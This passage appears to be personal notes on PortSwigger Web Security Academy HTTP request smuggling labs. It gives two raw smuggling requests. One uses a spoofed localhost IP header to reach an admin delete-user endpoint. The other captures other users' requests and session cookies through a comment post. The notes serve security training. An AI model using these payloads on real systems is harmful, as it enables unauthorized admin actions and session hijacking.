 Delete user adding the header
```
POST / HTTP/1.1
Host: 0acb003b035f179f8162dec100ee0067.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 167
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-KdXvJe-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

x=1
```


##### Exploiting HTTP request smuggling to capture other users' requests
If you encounter a timeout, this may indicate that the number of bytes you're trying to capture is greater than the total number of bytes in the subsequent request. Try reducing the `Content-Length` specified in the smuggled request prefix.
```
POST / HTTP/1.1

Host: 0ae9000503e7980b806e71de00eb0092.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Content-Length: 275

Transfer-Encoding: chunked



0



POST /post/comment HTTP/1.1

Content-Type: application/x-www-form-urlencoded

Content-Length: 922

Cookie: session=iVS3wY3HIEnn7NPZ3NnpwWKYwZnXF3rY



csrf=zzNUDHPLyUsBKY9KV2eApAvys4Tvth4N&postId=1&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=test
```
